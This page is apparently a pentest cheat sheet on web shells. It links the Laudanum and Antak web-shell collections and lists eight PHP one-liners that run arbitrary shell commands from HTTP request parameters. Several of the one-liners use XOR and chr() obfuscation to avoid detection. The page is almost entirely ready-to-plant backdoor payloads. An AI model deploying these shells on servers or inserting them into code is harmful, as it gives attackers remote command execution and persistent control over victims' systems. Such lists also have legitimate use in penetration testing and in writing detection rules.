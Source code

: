 # Web shells

- [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
- [Antak webshell](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)

## PHP
```php
<?php system($_REQUEST["cmd"]);?>
```
```php
<?=`$_GET[0]`?>
```
```php
<?=`$_POST[0]`?>
```
```php
<?=`{$_REQUEST['_']}`?>
```
```php
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
```
```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
```
```php
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>
```